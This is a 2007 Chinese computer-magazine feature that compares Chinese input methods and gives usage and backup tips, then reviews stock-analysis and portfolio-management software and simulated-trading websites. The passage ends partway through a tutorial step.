从词库上看，极品五笔V6.7完美兼容王码五笔字型4.5版，收录词组46000余条，创五笔词汇量新记录。在完全支持GB2312-80简体汉字字符集的基础上，增加部分GBK汉字，避免了不能输入不常用汉字的尴尬。而且它适应多种操作系统，通用性能较好。软件还提供了手工造词功能，可以方便地进行词语的自定义。软件可利用手工方式添加词语并对扩展词库进行维护，也可用快捷键Ctrl+~启动在线造词功能，将所输入的词组自动被系统记忆。另外，软件没有提供在线升级功能。

随着智能汉字输入法的产生，传统的五笔字型已难以满足现代广大用户的要求。因此传统的五笔字型必须与现代的智能处理输入技术相结合才能使其更为完美。极品五笔输入法就是这样一款智能化软件。相对其他软件而言，极品五笔输入法在设置功能方面显得稍微有些简单，仅仅提供了界面设置、字符集等。

##### 4. 智能陈桥五笔V5.8

智能陈桥五笔把传统的五笔字型和智能化的输入技术结合起来，从而使五笔字型的使用性能大大提高了。针对办公写作、网上聊天、专业录入及初学者，“智能陈桥五笔”根据其不同的需求，分别提供了不同的设置。不过软件界面比较差，颜色配置有待加强。

从智能特性上看，智能陈桥V5.8全面提升了陈桥拼音功能，可实行字、词、句混合输入，具有比智能五笔更为强大的智能处理功能，使陈桥拼音可单独成为一个非常好的拼音输入法。从词库的容量来看，软件内置了直接支持国家GB18030标准的27000多汉字五笔编码，可输出不常用的汉字。同时，它还具有GB/BIG5双内码汉字支持功能，既可输出大五码汉字，又可在繁体Windows系统下正常使用。新版本采用了灵活的词库管理功能，可随时对常用词库进行增减等操作。

从使用效率来看，智能陈桥五笔对重码采取多种处理方式，可以根据文章中的内容采用计算机智能自动选择字词，还可根据使用先见的方式来进行排序选择，从而减少了人工选择字词的操作，使重码对输入速度的影响减小。针对专业录入人员，软件还设置了禁止重码词的方式，可使专业录入人员在无重码情况下快速录入。另外，智能陈桥5.8增加了自动更新功能，改进的参数设置窗口，使设置操作更为直观和方便。

#### 四、即学即用：常用输入法使用技巧

汉字输入的方法很多，但输入汉字的过程并不是一帆风顺的；比如无法使用五笔字型输入法、输入法窗口不见了、词库里面没有某个汉字等，或者经常出现不能切换输入法、词库损坏等问题，这些都给我们带来了不少麻烦。下面将对输入法软件使用中出现的常见问题进行分析和总结。

##### 1. 输入法设置技巧

###### (1) 通用属性设置技巧

在操作系统上设置各种输入法的属性是一件十分重要的事情，以Windows XP为例，打开控制面板，点击“区域和语言选项”图标，在弹出的窗口中单击“语言”选项卡。现在，点击“详细信息”按钮，在这个界面中单击“添加”或“删除”按钮，就可以添加或者删除输入法了，这样可以达到优化系统资源的目的。大多数输入法都可以设置它的使用功能，常用的设置项目有光标跟随、逐键提示、词语联想等。在“输入法设置”对话框中选择“属性”按钮设置，就可以对相应的输入法进行具体的设置。

###### (2) 重现输入法工具条的设置技巧

当我们正在噼里啪啦输入文字时，输入法工具条突然不见了；或者再次输入时，已经分不清现在到底使用的是哪种输入法，而且折腾一番也毫无结果，此时，难免郁闷不已。其实，解决这个问题的方法很简单，只需将窗口最小化，然后还原，工具条就会出现。除了用鼠标外，还可以用键盘来实现，其方法是使用Win+M将窗口最小化，然后用Shift+Win+M将窗口还原。另外，在网页中或聊天时需要输入中文时，很容易出现按下“Ctrl+空格键”或使用鼠标不能打开输入法的现象。解决这个问题的方法是在IE中进行设置，选择“工具”菜单下的“Internet选项”，单击“高级”选项卡，将HTTP1.1设置中的“使用HTTP1.1”选项的对勾去掉，点击“确定”按钮后刷新即可。

###### (3) 输入法次序调整的设置技巧

通过Ctrl+空格热键，我们可以启动首选的输入法，因此如何设置首选的输入法就很重要了。一般的方法是将输入法删除，再重新安装该输入法，然后将最常用的输入法安装在第## （4）GBK大字符集汉字输入的设置技巧

GBK大字符集汉字的数量较多，如果只设置为GBK大字符集，那么使用全拼输入法时，会出现大量的重码，这样将严重影响输入速度，所以在Windows系统中设置了一个GBK与大字符集输入状态的切换开关。除了区位码和智能ABC外，其他预装输入法都有GB和GBK两种输入方式，安装时，缺省是GB输入方式，如果要输入一些比较难的字，就可以切换到GBK方式下。当需要切换时，首先单击输入法图标，选择“全拼输入法”，在输入法的状态条上单击鼠标右键，选择“设置”命令。在弹出的对话框中，可以看到“检索字符集”一栏，选中“GBK”项，单击“确定”，这时就可以直接输入一些难字了。

##### 2. 备份输入法和安全防范技巧

###### （1）备份输入法

如果我们不想让智能ABC记忆词组丢失，该怎么做呢？下面列举一些常用的输入法词组备份方法。其他输入法的词组备份方法类似，读者朋友可以多多体会。

- 智能ABC记忆词组保存在C:\windows\system文件夹中的Tmmr.rem和User.rem文件中，格式化电脑之前，可将它备份到软盘或别的地方。
- 五笔输入法词组保存在C:\windows\system\wbx.emb文件中，备份该文件即可。
- 微软拼音输入法词组保存在C:\windows\system\pjlpy.upt文件中，备份该文件即可。
- 紫光拼音输入法本身已经具备备份功能，只需要选择紫光拼音输入法设置选项下的“用户词库备份和恢复”选项即可轻松备份恢复词库。

###### （2）输入法安全防范

在默认安装的情况下，Windows系统中的简体中文输入法不能正确地检测当前的状态，导致在系统登录界面中提供了不应有的功能。从而产生了运行代码、更改系统配置、新建用户、添加或删除系统服务、添加、更改或删除数据，或执行其他操作，要防范这些安全问题，首先是登录http://windowsupdate.microsoft.com/这个站点给系统打上补丁，或者是输入法补丁。安装系统补丁后，即可自动更新；其次是删除输入法的帮助文件和多余的输入法，对于有漏洞的输入法，可把它的帮助文件全部删除掉。

##### 3. 拼音输入法使用技巧

###### （1）选择模糊音的技巧

发音不够标准怎么解决？在输入前，我们可以选定输入法中的“模糊音输入”方式以提高汉字输入的准确率。不过，在进行模糊音的设置时，会增加备选汉字的数量，实际使用过程中，我们可以根据自己所使用的输入法工具加以选取。

###### （2）元音分割的技巧

由于汉字发音的特殊性，比如有些字只有韵母而无声母，在输入过程中有时会发生匹配错误。解决的办法是使用按键（一般为单引号键）来强制分割元音。例如若直接输入“hunan”将会显示出其他词语，此时我们只需在“hun”和“an”之间加入单引号即可。

###### （3）中英文混合输入的技巧

在汉字输入也常常需要输入一些英文字符或单词，此时并不需要在各输入法状态间进行反复切换，因为大部分输入法都提供了双语混合输入功能，可有效简化您的操作。在紫光拼音输入法、拼音加加等工具中，混合输入方式为，输入相应拼音后直接按“Enter”键；使用智能ABC输入拼音前，先按“v”键。在上述输入法中，如果输入时发生了错误，按住“Home/End”键，将光标快速移至备选栏的首端或者尾端以便于修改。若想完全取消输入的拼音，按“Esc”键即可。

通过上述分析和测试评价，结合实际使用的技巧，对2007中文输入法列表对比如下，供用户参考。

表3 2007年中文输入法比较分析表

| 类型         | 易用性 | 输入效率 | 词库功能 | 智能辅助 | 动态升级 |
|--------------|--------|----------|----------|----------|----------|
| 搜狗V3.0     | ★★★★★ | ★★★★★   | ★★★★★   | ★★★★★   | ★★★★★   |
| 谷歌V1.0     | ★★★★★ | ★★★★☆   | ★★★★★   | ★★★★★   | ★★★★☆   |
| 紫光V6 Beta3 | ★★★★☆ | ★★★★☆   | ★★★★☆   | ★★★★☆   | ★★★★☆   |
| 微软拼音2007 | ★★★★☆ | ★★★★☆   | ★★★★☆   | ★★★★☆   | ★★★★☆   |
| 拼音加加V4.1 | ★★★★☆ | ★★★★☆   | ★★★★☆   | ★★★★☆   | ★★★★☆   |
| **五笔输入法** |        |          |          |          |          |
| 王码五笔2007 | ★★★★☆ | ★★★★★   | ★★★★★   | ★★★★☆   | ★★★★★   |
| 万能五笔V7.129| ★★★★★ | ★★★★★   | ★★★★★   | ★★★★★   | ★★★★★   |
| 极品五笔V6.7 | ★★★★★ | ★★★★★   | ★★★★★   | ★★★★☆   | ★★★★☆   |
| 智能五笔V5.8 | ★★★★☆ | ★★★★☆   | ★★★★★   | ★★★★☆   | ★★★★☆   |

可以看出，在拼音输入法方面，搜狗、谷歌由于在网络词库、动态升级方面优势明显，一经推出就赢得了许多用户的青睐，相比之下，其他拼音输入法尽管在词库方面进行了大量的工作，但依然难以赶上网络更新的速度，因此显得步履蹒跚，眼看着用户慢慢流失。类似的情景也出现在五笔输入法方面，由于在智能辅助、网络动态升级等方面明显落后于拼音输入法，如今市场日渐衰落，但在专业化输入效率、准确性等方面明显强于拼音输入法。

因此，综观2007年中文输入法工具，一个典型特点是主流拼音输入法功能不断加强，词库更新速度也在不断提高，而经过多年的发展，拼音输入法的速度也在不断提高，并在整体规模上开始占据压倒性的优势。

### 股市淘金：热门股票软件实战大比拼

文/风之扬

除了房价和物价飞涨，2007年最大的热点就是不断制造神话的股票了。不过，在目前的中国股市上，大多数股民还是以短线投机为主。如果用户所购买的股票较多，交易较频繁，就会出现很多问题，比如：是否还能清楚地记得曾经购买的每支股票价格，现在的价格又多少，每一支股票涨幅的成本核算是科学，在哪个价位点交易的盈利率最高。这就需要科学炒股了，毕竟，在信息时代单纯凭借大脑和笔纸根本无法跟上股市的节奏。

在行情日益火爆的背景下，股票交易软件一时间也随之升温，无数的股民借助它们在网上忙得不亦乐乎。各种股票交易软件的功能也日趋增多，令人眼花缭乱。除了价格不菲，更让人担心的是，有些软件分析方法比较欠缺，甚至会误导用户，可谓后患无穷。因此，在利用软件分析股票的过程中，必须善于借助工具挖掘和把握信息，按照专家的炒股理论智能选股，选择最合适的时机进行买卖交易。下面首先介绍利用网络和软件炒股的基本方法，然后通过几款优秀的股票管理软件进行实战演示，为用户进行精准定位，在股票的炒卖中做到有的放矢。

#### 一、初入股市：“网络炒股”初接触

2007年以来，大智慧、同花顺等软件分别突出了选股、评价、优化等辅助交易功能，有的还开放了自编公式平台，而老牌的单一功能软件则山河日下，许多曾经风靡一时的诸多软件开始销声匿迹，更新速度明显放慢。取舍之间，该怎样挑选股票分析软件呢？

##### 1. 选择网络炒股软件的关键要素

- 第一，操作的方便性。
  股票分析软件涉及到很多的概念，一般来说，炒股软件应该具备分时走势图、K线图、综合排名、涨幅排名等分析页面。用户通过鼠标轻轻一点，就能轻松地了解相关概念的图形状况。如果用户了解当前的买入卖出状况，通过一些实用工具和测试平台就能轻松完成，这样将更贴近用户的想法，给用户带来利益。
- 第二，股票相关信息要尽量全面、丰富。
  除了一般的行情报价、大盘走势分析功能，还应具备一些实时的财经新闻、专家推荐等资讯。股市千变万化，如果软件能够提供一个丰富、可靠的信息渠道，自然能吸引用户。
- 第三，具备实用的决策功能。
  随着技术的不断发展，计算机技术和股票理论的结合也越来越紧，作为一种工具分析软件，尤其要突出智能选股、评价、优化等辅助决策交易功能。因此，通过技术分析、即时分析、报价分析、公告分析等功能来协助决策，这样股民就能做出自己的交易决策或某些独有决断。实际上，股市上真正的高手，更善于将所学与人生经历、感悟等等凝结而成经验。

总之，股票投资和体育比赛一样，要求“技术过硬”、“心理过硬”；炒股软件也本质上只是一种技术辅助工具，如果心态不稳，信息掌握不全，一出手便被人抓住破绽，关键时刻更是手忙脚乱，一败涂地。所以要想在股票市场上成功，除了熟练利用各种资源，还必须充实自己的头脑，学会独立判断，运气和其他人是靠不住的。

##### 2. 身临其境：使用模拟炒股平台提高技术

随着股票指数不断冲击新高，许多人在股市里赚取了大把大把的钞票。如果用户根本就不懂股票，如何才能找到科学快速有效的学习炒股的途径呢？就像军事演习一样，在进行实战之前，针对假想敌的模拟演习就显得十分重要了。目前，许多优秀的网站提供了模拟炒股功能，而且还包含了实时看盘、论坛交流、实时模拟买入卖出、埋单撤单、高手操作实时提示等功能，能够与现实的股市交易同步，轻松帮助用户提高炒股技术。下面以“金融界”网站为例。

模拟炒股地址：http://www.jrj.com.cn/

- 第1步：登录网站并注册用户。
  这个站点包含了丰富的财经信息，从股票、基金、保险、期货到彩票等信息，几乎应有尽有。如果是第一次使用，首先需要注册ID才可以登录。点击右侧的“免费注册”按钮，设置个人模拟炒股时所需要的用户和密码。登录成功后，点击“自选股”连接，界面如图1所示。
- 第2步：设置“我的账户”。



在这个界面中，包含了“自选股票”、“我的理财产品”、“我的资讯”等栏目。如果还没有定制相关信息，可以直接点击“我要定制”，即可对相关信息进行设置。

- 第3步：在线查询。

点击“自选股票”下的“我要定制”连接，即可设置自选股内容，包括自选股票、自选基金、自选债券等，本例中只选择自选股票。现在，新建一个账户，填入初始资金。现在，“账户明细”就可以详细显示出来，并提供了详细的操作列表，包括：买入股票、卖出股票、成交明细、送股、配股、新股、红利、资金划入、资金划出、添加证券、删除证券等。和实际操作十分类似。

对于最初购买股票的股民来说，选股是最困难的事情。该软件提供了资讯、行情等多种方式，为购买者罗列出心目中最想要购买股票。

- 第4步：虚拟交易平台。

选定好合适的股票后，就可以购买了。例如，点击“买入股票”，出现如下界面，输入股票代码、买入价格、股票数量。整个系统流程与真实股市完全一样，模拟交易的品种和真实的股市一样，手续费统一按现行证监会的标准计算。

该网站用于学习炒股是相当不错的，模拟过程，如临其境。对于初学者来说，它有助于炼就熟练的技巧；对于普通股民来说，它可以迅速提高操作水平，许多以前不敢做的事就可以去实践了。类似的网站还有很多，如新浪财经：http://finance.sina.com.cn/等，也可以作为模拟炒股实践之用。此外，还有许多模拟炒股软件，如“股城模拟炒股软件”、“白金模拟炒股”，其原理是通过客户端软件连接到网络上。不过，在实际测试中感觉并不流畅，并容易出现无法登录的情况，本文不作详细介绍。

#### 二、完全进阶：常用股票分析软件全扫描

一个优秀的股票分析软件不仅需要丰富的信息功能和方便的操作功能，更要能充分利用各种资源，帮助用户决策。当然，本次选择的另外一个重要标准就是尽量寻找免费软件。下面，在此基础上，对本年度比较流行的股票分析软件进行讲解。

##### 1. 大智慧证券信息平台V5.58

软件下载地址：http://www.skycn.com/soft/8630.html
推荐指数：★★★★★

软件类型：免费软件
在新浪股票、天空、华军等软件下载排行榜上，“大智慧证券信息平台”牢牢把握着头把交椅，可见其吸引人之处。2007年软件最新版本为V5.58，并在不断更新之中。它包括了目前大部分证券投资分析工具的实用功能；整合了行情分析、盘口分析、竞价分析、趋势分析、技术分析、基本面分析、盘中选股、指标选股、基本面选股、基本分析于一体。特别融入强大的大智慧资讯系统：可标识信息地雷、警示即时行情、描述生命历程、分析盘中异动、判断大市趋向、综合名家点股，为证券市场的投资者提供全方位的信息分析手段。软件安装后需要注册一个免费的账号。登陆后，可以看到和证券公司大屏幕十分相似的软件界面，如图2所示。


###### （1）丰富的信息发布功能

行情报价是股票分析软件最基本的功能。大智慧软件的行情功能由以下内容组成：分类报价、智慧排行、综合排名、股指同列、多股同列、自选报价、板块（包括行业、地域、概念）报价。首先，在智慧排行中，具有独特的“信息地雷”功能。只要在盘中出现重要市场评论及预测、买卖参考等内容，都会在相应的分时走势图上出现地雷标志，这样用户的操作就更加有针对性。实际操作中，单击“行情报价”菜单下“智慧排行”中的“信息地雷”，即可得到地雷标志。其次，多股同列具有将多个股票的走势在一个画面中同时列出的功能，这样用户观看更加方便。此外，大智慧板块监测可以在盘中及时跟踪各板块（概念、行业、地域）的动向及其领涨股，从中发现热门板块、潜力板块、风险板块以及板块中的潜力股。这在同类软件中是做得比较细致的。

###### （2）实用的操作功能

对于股民来说，日常操作最频繁的应该是大盘当日动态走势和个股分时走势了，简单介绍如下。

首先是大盘当日动态走势。主要内容包括当日指数、成交总额、成交手数、委买/卖手数、委比、上涨/下跌股票总数、平盘股票总数等。另有指标曲线图窗口，可显示多空指标、量比等指标曲线图。进入大盘的分时图或者日线图后，您可以发现在右下角这里新增了“大单”这项功能，按小键盘的“+”号键就能切换到大单揭示页面。它在沪深大盘分时走势页面提供了个股大单买卖的数据。

> <小知识> 股票指数即股票价格指数。是由证券交易所或金融服务机构编制的表明股票行市变动的一种供参考的指示数字。由于股票价格起伏无常，投资者必然面临市场价格风险。对于具体某一种股票的价格变化，投资者容易了解，而对于多种股票的价格变化，要逐一了解，既不容易，也不胜其烦。为了适应这种情况和需要，一些金融服务机构就利用自己的业务知识和熟悉市场的优势，编制出股票价格指数，公开发布，作为市场价格变动的指标。投资者据此就可以检验自己投资的效果，并用以预测股票市场的动向。同时，新闻界、公司老板乃至政界领导人等也以此为参考指标，来观察、预测社会政治、经济发展形势。

其次是个股的分时走势。主要内容包括个股当日动态走势线、个股当日均价线、分时价量显示窗口（该窗口显示当前盘口情况，即当前个股的委托买卖情况）、分时价量表（详细显示各个时刻的分时成交明细）、个股基本面窗口等。另有指标曲线图窗口，可显示动量指标，量比指标等共八种指标的曲线图。通过“+”键切换至特色基本面窗口，可以浏览竞买竞卖指标、大单比率、五日换手总量、市盈率、每股收益、每股净资产、总股本等基本面数据。同时，大智慧还提供流通股本、流通市值、公司上市日期、概念板块等重要数据参考。例如，在图中显示了东风汽车的分时走势，如图3所示。

###### （3）精准的分析决策功能

为了进一步帮助用户进行分析决策，软件提供了多种个性化工具。包括：智能选股、精确复权、区间统计功能、指标编辑、画线、个人理财、委托交易等。简单介绍如下。

**功能1：智能选股**

支持技术指标、条件选股、交易系统、五彩K线和组合条件五大类方法进行选股。

技术指标选股是根据指标线的数值范围，或指标线是否向上或向下突破某数值来进行选股。与条件选股公式不同的是，技术指标选股还需要设定具体指标线发生了某种变化。例如要选出60日均线大于10的股票，需要首先选中MA技术指标，然后设置指标线MA4（60日均价线）大于10。

**功能2：公式编辑与自编指标**

指标编辑。通过技术指标的编辑，能够实现对技术图表分析中各类技术指标和自我定义的技术分析指标的编写，并且通过大智慧的分析界面形成图表、曲线，以方便和寻找有意义的技术图形和技术特征。通过大智慧的公式编辑功能，用户可以通过对每日深沪两地交易所和历史上发送的行情数据按照简单的运算法则进行分析、选股、测试，以达到快速提取数据和提高运算能力，同时简化计算过程的要求。因此对不同类型的函数我们赋予了相当精确的含义。所有的公式系统都是遵守统一的运算法则，统一的格式进行函数之间的计算，所以我们掌握了技术指标公式的基本原理，其他的公式也可以触类旁通。以自编指标为例，单击“功能”菜单下的“自编指标”选项，即可在公式组等栏目中进行设置。大智慧的公式编写系统用了多类函数，以达到快速提取数据和提高运算能力，同时简化计算过程的要求。如图4所示。



用来进行行情显示、行情分析并同时进行信息即时接收的超级证券信息平台，适合证券决策机构和各阶层证券分析、咨询、投资人员，新版本的功能层次更加清晰，尤其是操作的进一步简化，使得软件的信息提供、决策、操作方面都更加适合股民的操作习惯。目前，大智慧是中国大陆使用人数最多、在线股票交易最大的通道。更重要的是，软件可以免费使用，是一款超值的股票分析软件。

**功能3：精确复权**

此功能可消除被股市套牢后的股价失真和技术指标走样情况，从而避免庄家利用“除权”、“填权”等概念引诱投资者高位接货，长期被套。使用方法为，选择“分析”中的“复权处理”后，选择合适的除权方式即可，包括前复权、后复权等。其中，前复权是指以现在的股价为基准，将前面股价进行复权处理。后复权指以复权前的股价为基准，把之后的股价进行复权处理的方法。

**功能4：区间统计功能**

使用方法为，选择“分析”菜单下的“区间统计”项。可以帮助用户迅速统计个股选定的阶段内的累计涨幅、跌幅、金额、换手率、均价等。从中了解到个股的压力支撑力度，掌握主力资金运作规律。单击“技术分析”菜单下的“区间统计”，即可得到相关参数。

**功能5：画线工具**

股票分析软件未出现时，人们大多是“纸上谈股”，大智慧提供多种画线工具，可让用户多角度地分析趋势，捕捉最佳买卖点。

**功能6：个人理财**

大智慧的个人理财系统正是根据广大股民的理财需要应运而生。它不仅能够实时计算盈亏，更能从不同角度汇总每笔交易，让您可以结合市场实际迅速调整资金比例和持仓结构，理性操作，从容进出。大智慧的个人理财系统真正使您轻松炒股，在风起云涌的股市中应付自如。单击“工具”菜单下的“个人理财”，即可进入操作界面。

**功能7：委托和个股评价**

大智慧可以外挂各种委托系统，还可以同时使用多个券商的委托系统，通过其自助委托就可轻松实现，确保交易的便捷性。个股评价则可以用来根据定制的评价公式对个股进行智能化综合评定，它可以按照用户拟定的条件与范围监控股票。

当然，以上只是几个典型的功能，限于篇幅，用户可以自己去摸索使用。总的来看，大智慧证券信息平台是一套非常强大的证券信息平台。

##### 2. 同花顺2007 V4.40.12

软件下载地址：http://www.10jqka.com.cn/ 或 http://www.onlinedown.net/soft/39710.htm

推荐指数：★★★★☆

软件类型：免费软件

同花顺2007也是一款功能强大的免费网上股票证券交易分析软件，该软件界面更简洁，行情速度更新很快。使用时，首先需要注册用户ID，注册完毕即可登录。界面如图5所示。



###### （1）信息功能

同花顺2007提供了一个功能强大的信息平台，包括专家在线盘中点评，热点分析，财经要闻报道、市场走势分析、专家在线讲座等服务，值得一提的是，软件提供了著名分析师的每日全新专案，指导投资者把握市场热点，获得高收益，帮助投资者准确把握行情，规避风险，提高收益。多种信息的结合，有助于用户及时地了解上市公司和国家的宏观财经政策，把握大盘的走势。通过全推送行情技术，可以支持盘中即时选股和技术指标、画线等预警，股票切换时行情无丝毫延误。打开“资讯”菜单，即可打开“资讯中心”窗口，在左侧的“咨询树”栏里，有当日的财经新闻，也有上市公司公告；有政策解盘，也有个股点评；有操作宝典，也有潜力股推荐；有股民学堂，也有专家在线等等，所有的信息都整合在一个窗口，使用起来十分方便。

###### （2）个性化操作功能

软件提供了更加方便、实用的分析方法和手段，包括：机构持股、盘中预警、评星评级、历史回忆、服务器选股等。

###### （3）分析决策功能

用户可以自己编写公式、个人设定选股条件。通过编写公式栏目中的新建自定义公式，用户可以根据自己的爱好，方便设定和修改函数和编写选股条件，更体现人性化的设计。小财神可以建立多个账户真实交易账户和模拟操作账户，完善的成本核算体系，完善的统计分析，多视角的报表分析，细致的特殊业务处理等等。

## 功能1：多股同列

在同一个页面中，可以同时显示四股、九股或十六股的K线图或分时走势图。比如，先打开涨幅排名页面，选择一个起点，然后在菜单栏选择“报价”→“K线同列”→“四股K线”，即可看到四只股票将按涨幅排名顺序在同一页面中显示其K线图。

## 功能2：对照分析

对照分析功能也是同花顺软件中的一大特色，对照的内容包括个股与个股，个股与大盘的分时走势对照以及K线图对照等，这些命令包括“两股对比”、“对照分析”、“大盘对照”。

## 功能3：超级盘口

此功能区别于分时走势页面，其分析页面的横坐标是基于成交明细的（有一笔成交画一笔）。当鼠标在走势曲线上移动时，页面右侧的买卖盘口与成交明细数据会自动滚动，当鼠标定位在曲线上的某一点时，这些数据会再现这一时刻的盘口情况。该页面若再配合“智能”菜单中的“历史回忆”，可完美地再现股价拉升或跳水时情景，使得庄家在盘中的操作手法暴露无遗。

## 功能4：财务分析

分析上市公司的基本面情况，是股民投资决策的一项基本功，但面对纷繁复杂的财务报表，又常常使股民头痛不已。通过此软件，可以轻松解决此类问题。单击“分析”→“财务”→“基本资料”，即可打开基本资料页面。这里列出了一个上市公司最基本的财务数据，包括股本结构、权息状况、资产状况、盈利能力、成长能力、偿债能力、现金保障七个部分，通过这七个方面的认识，可以使你在一个简单的页面里面就能对整个公司的财务状况有一个全面的了解。

> ★小技巧★ 通过基本图示年表，用户不仅可以一眼看出不同年份之间某项财务数据的变化，还可以在不同财务数据之间方便地做出比较。单击“分析”→“财务”→“基本图示年表”，或者直接点击工具栏上的财务图示按钮，可以打开财务图示页面。同花顺2007即可将一个上市公司的净利润、主营业务收入、应收账款、总负债、总资产和三项费用合计（即财务、营业、管理费用之和）这六项企业财务指标最近五年的值，用柱状图表示出来，它可以让你形象、直观地看到企业最近五年的基本面变化。

## 功能5：“个股雷达”和“鹰眼盯盘”

单击“智能”→“个股雷达”，即可出现“个股雷达”界面，它可用来在后台监控你所关注的个股或自选股的涨跌幅度、量比、绝对价位、成交量等变化情况。单击“智能”→“鹰眼盯盘”，即可打开“鹰眼盯盘”界面，它可以设定条件监控整个股票市场的动向，它可以帮助你发现可能忽略或者不能注意到的风吹草动，同花顺将在条件满足时提醒出现变化的股票及其特征，让用户抓住每一个买卖股票的时机。

此外，同花顺2007将服务、客户端与网站、行情与委托理财有机地结合起来，并能为各层次的投资者提供个性化、差异化的应用与服务。软件不仅能分析和买卖股票，而且还能查看外汇、期货、港股、三板市场的行情，大大方便了用户的投资操作。

##### 3. 其他股票分析软件

为了使读者对股票分析软件有一个全面的了解，我们还推荐了一些比较有特色的股票软件，使用户有一个更大的选择余地。

###### （1）证券之星行情分析软件

软件下载地址：http://www.stockstar.com/

“证券之星”是符合主流看盘习惯的新一代行情分析软件。它充分吸收和借鉴市面上流行的行情分析软件的特色，加入了一些更加细致的功能。需要注意的是，软件需要收费使用，目前版本包括证星黑马营、证星天机版、证星福布斯版、证星财富版等。在信息提示方面，包括：大盘分析、多股同列、特别报道、公告分析等。其中，“公告分析”提供了比较全面的市场公告信息、个股基本资料以及券商公告信息等。在决策分析方面，通过不同的分类选股的方式，可以对个股的走势进行分析，包括分时走势的追踪分析和K线技术指标分析。报价分析包括五种选股的方式，分别是最新访问、自选股、商品顺序、分类股、板块股。将鼠标移到股票上，双击左键，即可查阅该股的当日的分时走势图。总体而言，这款软件便于投资者进行盘中分析，有效把握投资机会。对于普通用户来说，需要收费注册可能是一个不太让人满意的地方。

###### （2）“股经”智能选股软件

软件下载地址：http://www.stock2000.net/

“股经”是一套建立在X线趋势理论基础上，辅以筹码分布、螺旋周期、主力动量、明日警戒点、雷霆出击排行榜、股价领先指标、投机指标和犀牛指标等独具特色技术指标，从趋势、强弱、时间和庄家力度四大方面对股价进行综合分析的股票分析软件。在信息提示功能上，采用灵活与方便的版面组合，股票强弱一目了然。在特色指标上，标排序可以对两市的所有股票按照客户指定的技术指标数值进行排序。软件提供了很多实用的特色指标，这是它区别于其他软件的一个优秀之处。包括投机指标、明日警戒点、短X线、长X线、主力动量、螺旋周期分析、股价领先指标、灰色地带等。相关指标的概念可双击并参考相应的图形。
软件提供了各种不同投资方案，这是一个比较鲜明的特点。“股经”的选股出发点基于波段操作，以中短线为主。它可以通过电脑自动筛选潜力个股给投资者参考。提供了多种不同方案，适应不同的市场环境及短、中、长线等不同风格的投资人士。包括投机选股、黄金选股、专业选股、大水牛选股、神枪手选股、牛魔王选股、白金选股，还支持多种指标同时进行排序。通过这些各具特色的方式，可以方便用户查阅指定的排序名次。另外，软件提供了实战性测试平台，其检测结果包括股经首次提出的百只获利、信号量、止损率、高价成功率、高价次成功率和平手率等实战性指标。总体而言，“股经”股票分析软件的设计理念与市场趋势同行，善于利用多种指标分析技术，使用户得到最大的效益回报。唯一的缺陷是软件更新比较慢。

###### （3）钱龙证券投资分析软件 V2007

软件下载地址：http://www.qianlong.com.cn

这是上海乾隆高科推出的基于因特网的实时证券分析软件之一，特别针对钱龙传统用户的使用习惯和功能需求设计，行情刷新实时迅捷，界面操作简单明了，安装程序小、下载和运行都非常流畅。不过，使用时需要注册收费。

###### （4）傲群选股专家

软件下载地址：http://www.aoqun.com.cn/

傲群选股专家是北京傲群科技发展有限公司开发的一套证券盘后分析软件。它结合箱体理论和其他多种技术分析理论，在国内率先提出“按股价走势对股票进行分类”的概念，结合其它多种分析理论，给用户提供了强大的形态选股方式和独特的选股思路。“股票箱理论”是以整个股票箱的所有数据作为研究对象，这使形态选股成为可能，而不仅仅局限于技术选股，同时决策的信息量更大，选股成功的概率更高。它侧重于选股，使用非常简单，系统自身具有16种默认的选股方案，点击菜单中的“形态选股”或按钮，查看选股结果就可以了。用户还可以修改选股的方案和自定义选股方案。尤其值得指出的是，软件中依据“股票箱理论”中的“横有多长，竖有多高”思想设计的“正在突破的股票”和“面临突破的股票”的方案对捕捉黑马尤为有效。软件的主要缺陷在于更新比较慢。

总的来看，上述软件中，大智慧与同花顺表现明显出色，不仅提供免费注册使用，而且能够提供个性化的操作功能，尤其适合刚入股市的用户使用。如果资金宽裕，用户也可以选择一些收费的行情软件，以获得更加专业化的服务。

## 二、如虎添翼：股票管理辅助软件

掌握了丰富的信息资源，我们还需要一些辅助管理软件来打理股票账户。下面，从服务股民的角度，推荐几款优秀的管理软件。

##### 1. “轻轻松松管股票” V4.97

- 推荐指数：★★★★★
- 软件类型：免费
- 软件下载地址：http://www.nine-head-bird.com/

“轻轻松松管股票”可以帮助用户管理股票账户，软件支持沪深AB股（包括中小企业板）、基金、债券的交易，同时还支持三板市场、开放式基金、权证以及ETF和LOF。软件操作界面采用Windows资源管理器与Microsoft Excel相结合的风格，非常美观友好。除了提供基本的交易记录功能外，还可以提供多种统计功能，帮助用户准确地把握账户情况，科学制定操作策略。另外，软件针对已实施的交易佣金政策、新的证券品种以及未来的单边印花税政策进行了处理，使得软件更加具有实用性和适应性。

### 第1步：新建账户并录入买卖数据信息。

启动软件，点击“账户” → “新建账户”按钮，在“新建/修改账户”对话框中输入账户名称、佣金收取标准等信息，并根据需要来设置密码。操作时，只需点击主菜单上的“交易” → “买入”按钮，在弹出的界面中录入购买的股票编号、价格与数量即可。如图6所示，输入购买1000股中国联通股票。


> **小技巧** 单击“行情” → “实时行情更新”，可以对最新的数据进行更新。进行股票操作的心得、体会，或相关的政策、资讯等信息，可以随时记录在“备注”中。

### 第2步：分析数据并计算盈亏率。

在买卖股票的过程中，用户经常需要了解当前的盈利情况，但有些软件提供的功能过于繁琐，计算也比较复杂。而通过“轻轻松松管股票”的交易计算功能，可以清楚了解当前状况。数据录入完毕，在主菜单上看见详细数据明细。这里显示购买价格、持平价、最新价、当前盈亏、累积盈亏、盈亏率等选项。通过“工具” → “交易计算”，可以打开交易计算器测算数据，通过里面的数据，可以知道目前购买的股票的盈利情况。

### 第3步：虚拟交易、预算投入与收益。

除了查看和分析信息外，还可以实现快速的虚拟交易。操作的时候只需点击主菜单上的“交易” → “卖出”按钮，根据虚拟的交易买卖数据将股票卖出。此时在主界面的下方选框中会将此操作记录在案，通过下面的数据也可以清楚地知道收益情况。

### 第4步：分析与统计。

软件还提供以饼图、直方图以及表格等直观的形式对持仓、盈亏和交易情况进行统计，用户还可以随时新增股票代码或修改股票名称及最新价。通过选择统计类型，当存在子账户时再选择子账户名称，系统将显示统计图形或表格并提供保存、打印功能。对于走势图，可以选择统计周期（日、周、月），并可进行前后翻页。

### 第5步：备份、存储管理。

